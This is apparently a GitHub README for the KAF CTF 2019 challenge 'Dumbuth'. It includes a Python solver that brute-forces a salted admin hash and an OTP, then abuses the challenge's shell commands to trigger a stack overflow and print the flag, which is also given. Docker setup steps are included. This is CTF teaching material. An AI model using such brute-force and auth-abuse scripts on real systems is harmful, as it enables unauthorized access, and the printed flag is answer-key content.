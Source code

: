 # Dumbuth

Dumbuth is an information security challenge in the Miscellaneous category, and was presented to participants of [KAF CTF 2019](https://ctf.kipodafterfree.com)

## Challenge story

Mainframe management can be really hard at times :(

## Challenge exploit

A stackoverflow exception is catched when the user runs the find command, and the flag is displayed.

## Challenge solution

```py
import os.path
import hashlib
import requests
import socket
import json
import time
import re

CHARS = "abcdefghijklmnopqrstuvwxyz"
HOST = "localhost"
PORT_A = 1110
PORT_B = 1111

def recursive(hash, salt, target, current = ""):
	if len(current) < target:
		for c in CHARS:
			result = recursive(hash, salt, target, current+c)
			if result != None:
				return result
	else:
		if hash == duth_hash(current, salt):
			return current
		return None
	return None

def duth_hash(secret, salt, rounds = 10):
	# secret=secret.encode('utf-8')
	# salt=salt.encode('utf-8')
	if rounds == 0:
		return hashlib.sha1((secret+salt).encode('utf-8')).hexdigest()
	return hashlib.sha1((salt+duth_hash(secret, salt, rounds-1)).encode('utf-8')).hexdigest()

def ps(string):
	print("\33[1;31mOut\33[0m->"+string)
	return bytes(string+"\n", encoding='utf8')

def pr(sock):
	string = re.sub(r"(\n.+duth.+:.+>)+","",sock.recv(2048).decode('utf-8'))
	string=string[:-1]
	print("\33[1;33mIn\33[0m<-"+string.replace("\n","\n\33[1;33mIn\33[0m<-"))
	return string;

def slp():
	time.sleep(0.1)

def solve():
	if os.path.exists("password.txt"):
		password = open("password.txt", "r").read().replace("\n","")
	else:
		gethash = requests.post("http://"+HOST+":"+PORT_A+"/files/dumbuth/dumbuth.php", data={'mainframe':json.dumps({'action':'checkname','parameters':{'name':'admin'}})})
		resultA = json.loads(gethash.text)
		listA = resultA['mainframe']['result']['checkname']
		password = recursive(listA[1], listA[2], 6)
		file = open("password.txt", "w+")
		file.write(password)
		file.close()
	print("Main credentials: admin("+password+")")
	# Init shellA and shellB
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as A:
		A.connect((HOST, PORT_B))
		slp()
		A.recv(1024);
		A.sendall(ps("auth admin "+password))
		slp()
		if "OK" in pr(A):
			A.sendall(ps("elevate"))
			for i in range(8):
				slp()
			pr(A)
			A.sendall(ps("cmfs"))
			slp()
			pr(A)
			A.sendall(ps("ln /files /files/files"))
			slp()
			pr(A)
			A.sendall(ps("id"))
			slp()
			qsid = pr(A)
			A.sendall(ps("sotp"))
			slp()
			sotp = pr(A).split(" - ")
			otp = recursive(sotp[1], sotp[2], 5)
			print("OTP: "+otp)
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as B:
				B.connect((HOST, PORT_B))
				pr(B)
				B.sendall(ps("auth admin "+password))
				slp()
				pr(B)
				B.sendall(ps("nc "+qsid+" "+otp+" find"))
				slp()
				data = pr(A)
				while not "╝" in data:
					data += pr(A)
		else:
			print("Initial Auth Failure")

solve();
```

## Building and installing

[Clone](https://github.com/NadavTasher/2019-Dumbuth/archive/master.zip) the repository, then type the following command to build the container:
```bash
docker build . -t dumbuth
```

To run the challenge, execute the following command:
```bash
docker run --rm -d -p 1110:80 -p 1111:8000 Dumbuth
```

## Usage

You may now access the challenge interface through your browser: `http://localhost:1110` and through `nc localhost 1111`

## Flag

Flag is:
```flagscript
KAF{d1dnt_expect_1t_t0_b3_4n_0verfl0w_3xc3ption}
```

## License
[MIT License](https://choosealicense.com/licenses/mit/)